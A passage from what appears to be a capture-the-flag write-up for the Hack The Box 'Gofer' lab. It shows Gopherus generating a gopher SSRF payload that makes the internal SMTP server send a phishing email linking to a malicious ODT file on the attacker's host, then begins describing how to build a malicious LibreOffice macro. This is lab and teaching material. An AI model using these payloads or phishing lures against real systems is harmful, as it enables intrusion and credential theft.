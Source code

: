 I'm aware that there's an SMTP service running on the internal network. However, since I don't have control over the method or protocol for the SSRF request, I couldn't directly interact with the SMTP service. To work around this, I used [Gopher](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher), a protocol that allows communication with various TCP servers. Using the [Gopherus](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/) tool I was able to generate a Gopher payload, enabling me to exploit the SSRF vulnerability and communicate with the internal SMTP server.

The usernames on the server appear to follow the pattern of `$(FirstNameInitial)$(LastName)`. Given that the target user for the phishing attempt is Jocelyn and the only username starting with 'J' is `jhudson`, it's reasonable to assume that this could be their username. This implies that the 'To' email address would be `jhudson@gofer.htb`. In the message, I included a link to an ODT file hosted on my attack box.

```bash
> python2 gopherus.py --exploit smtp


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

        author: $_SpyD3r_$


Give Details to send mail:

Mail from :  abraxas@gofer.htb
Mail To :  jhudson@gofer.htb
Subject :  Definitely not a phishing attempt
Message :  Not malicious <a href=http://10.10.14.132/exploit.odt>link</a>

Your gopher link is ready to send Mail:

gopher://127.0.0.1:25/_MAIL%20FROM:abraxas%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:abraxas%40gofer.htb%0ASubject:Definitely%20not%20a%20phishing%20attempt%0AMessage:Not%20malicious%20%3Ca%20href%3Dhttp://10.10.14.132/exploit.odt%3Elink%3C/a%3E%0A.

-----------Made-by-SpyD3r-----------

```

### Crafting a malicious macro for ODT

Now, that I have  way to communicate with the SMTP server, I need to craft an ODT file with a malicious macro. This [blog post](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html) explains how to create the malicious macro.

Step 1: A new macro can be created from the BASIC Macros option under Tools.
